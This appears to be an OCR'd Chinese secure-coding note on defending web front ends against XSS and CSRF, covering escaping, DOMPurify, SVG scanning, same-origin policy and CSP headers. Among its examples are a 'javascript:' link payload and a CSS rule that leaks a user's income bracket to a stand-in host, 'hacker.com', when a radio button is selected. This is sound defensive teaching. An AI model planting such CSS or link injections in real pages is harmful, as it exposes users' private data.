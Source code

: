 守则

* 永不信任外部传入数据
* 不要将用户提交内容直接转换为DOM

工具

* 主流框架默认防御XSS
* Google-closure-library
* DOMPurify

#### 无法避免动态生成DOM

当存在需求无法避免动态生成DOM时，注意以下几点

##### DOM

对字符进行转义

##### SVG

允许上传图片时也要注意对SVG进行扫描

##### 自定义跳转连接

当允许用户自定义跳转连接时，需要对跳转连接进行过滤防范，例如`<a herf="javascript:alert(0)">` 存在危险

##### 自定义样式

当有表单radio被点击时触发get请求, 暴露收入情况

```css
input[type=radio].income-ge10k {
    background: url("http://hacker.com/?income=gt10k");
}
```

### CSRF

#### 同源策略

当满足以下条件时，浏览器认为同源，否则跨域

* 协议相同
* 域名相同
* 端口相同

如果发生跨域，看服务器是否支持CORS

#### Content Security Policy(CSP)

内容安全策略定义哪些源或域名是安全的，来自安全源的脚本可以执行，否则报错

对eval + inline scipt 说不

##### 服务器端设置

```text
Content-Security-Policy: script-src 'self' 同源允许
Content-Security-Policy: script-src 'self' https://domain.com 在同源之外允许该域脚本执行
```
